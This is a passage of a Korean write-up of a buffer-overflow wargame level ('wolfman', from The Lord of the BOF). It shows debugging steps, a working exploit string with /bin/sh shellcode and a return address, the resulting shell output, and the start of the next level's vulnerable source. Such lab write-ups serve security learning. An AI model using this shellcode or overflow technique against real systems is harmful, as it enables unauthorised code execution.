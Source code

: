 또 삽질 시작....
결국 wolfman을 /tmp 디렉토리에 복사하여 소스코드에 argv의 real address를 출력하는 코드를 삽입하였다.

```c
// buffer hunter
memset(buffer, 0, 40);
printf("%#x\n",argv[1]);
```

오류 발생 시 argv의 정확한 주소를 파악 할 수 있다.

```
tmp/wolf `python -c "print 'A'*40 + 'BBBB' + '\xbf\xbf\xbf\xbf'"`
0xbffffe08
Segmentation fault (core dumped)
```

최종 exploit payload는 아래와 같다

```
./wolfman `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'+'\x90'*19+'\x08\xfe\xff\xbf'"`
bash$ my-pass
euid = 505
love eyuna
```

## wolfman

### 1. source code
```
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
```